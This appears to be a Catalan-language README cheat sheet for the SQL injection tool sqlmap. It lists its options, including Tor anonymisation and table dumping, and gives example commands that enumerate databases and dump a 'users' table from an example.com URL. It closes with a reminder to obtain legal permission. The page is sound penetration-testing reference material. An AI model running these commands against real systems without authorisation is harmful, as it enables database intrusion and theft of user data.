 # SQLMap

![](./img/sqlmapLogo.png)

[Home](../../../README.md)

[KaliTools](https://www.kali.org/tools/sqlmap/)

## Utilització

sqlmap [opcions] [objectiu]

### Paràmetres Comúns

Opcions per llançar atacs d'injecció SQL:
- `-u <URL>`, `--url <URL>` : Especifica la URL objectiu.
- `-d <connexió>`, `--data <connexió>` : Proporciona la cadena de connexió directa a la base de dades.
- `-r <arxiu>`, `--request-file <arxiu>` : Utilitza un fitxer amb les dades de la petició HTTP.
- `-p <paràmetre>`, `--parameter <paràmetre>` : Indica el paràmetre específic per provar.
- `--batch` : Mode automàtic, respon les preguntes per defecte.

Opcions de detecció i enumeració:
- `--level <número>` : Defineix el nivell d'agressivitat (per defecte, 1).
- `--risk <número>` : Estableix el risc dels tests (per defecte, 1).
- `--dbs` : Llista les bases de dades disponibles.
- `--tables` : Llista les taules d'una base de dades.
- `--columns` : Mostra les columnes d'una taula.
- `--dump` : Recupera les dades de la base de dades.

Altres opcions:
- `--tor` : Utilitza la xarxa Tor per anonimitzar l'atac.
- `--user-agent <string>` : Defineix un user-agent personalitzat.
- `--proxy <URL>` : Utilitza un servidor intermediari per a les peticions.
- `-o`, `--output-dir <dir>` : Especifica un directori per desar els resultats.

### Exemples d'ús

* Realitzar una anàlisi automàtica en una URL per trobar vulnerabilitats d'injecció:

    ```
    sqlmap -u "http://example.com/vulnerable?id=1"
    ```

<br>

* Llistar totes les bases de dades d'un servidor:

    ```
    sqlmap -u "http://example.com/vulnerable?id=1" --dbs
    ```

<br>

* Enumerar les taules de la base de dades `mydb`:

    ```
    sqlmap -u "http://example.com/vulnerable?id=1" -D mydb --tables
    ```

<br>

* Extraure el contingut de la taula `users` de `mydb`:

    ```
    sqlmap -u "http://example.com/vulnerable?id=1" -D mydb -T users --dump
    ```

<br>

* Executar l'atac amb un fitxer de petició HTTP:

    ```
    sqlmap -r request.txt --dbs
    ```

## Notes Addicionals
- Assegureu-vos de tenir permís legal abans de realitzar qualsevol prova de seguretat.
- Utilitzeu sqlmap amb responsabilitat i ética en entorns autoritzats.


